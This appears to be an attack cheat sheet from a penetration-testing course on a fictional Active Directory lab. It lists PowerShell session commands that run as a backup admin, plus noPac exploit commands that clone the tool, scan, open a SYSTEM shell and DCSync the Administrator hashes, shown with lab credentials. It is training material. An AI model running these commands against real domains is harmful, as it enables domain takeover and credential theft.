 ```PowerShell
klist
```
Will show there is only a cached Kerberos ticket for our user

```PowerShell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```
Registers a new session configuration using the Register-PSSessionConfiguration cmdlet.

```PowerShell
Restart-Service WinRM
```
Service needs to be restarted

```PowerShell
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
```
Re-enters the session under the new configuration created
## Bleeding Edge Vulnerabilities

### NoPac

#### Cloning the NoPac Exploit Repo
```Shell
sudo git clone https://github.com/Ridter/noPac.git 
```
Used to clone a noPac exploit using git. Performed from a Linux-based host.

#### Scanning for NoPac
```Shell
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap 
```
Runs scanner.py to check if a target system is vulnerable to noPac/Sam_The_Admin from a Linux-based host.

#### Running NoPac & Getting a Shell
```Shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap 
```
Used to exploit the noPac/Sam_The_Admin vulnerability and gain a SYSTEM shell (-shell). Performed from a Linux-based host.

#### Using noPac to DCSync the Built-in Administrator Account
```Shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator 
```
Used to exploit the noPac/Sam_The_Admin vulnerability and perform a DCSync attack against the built-in Administrator account on a Domain Controller from a Linux-based host.

### PrintNightmare
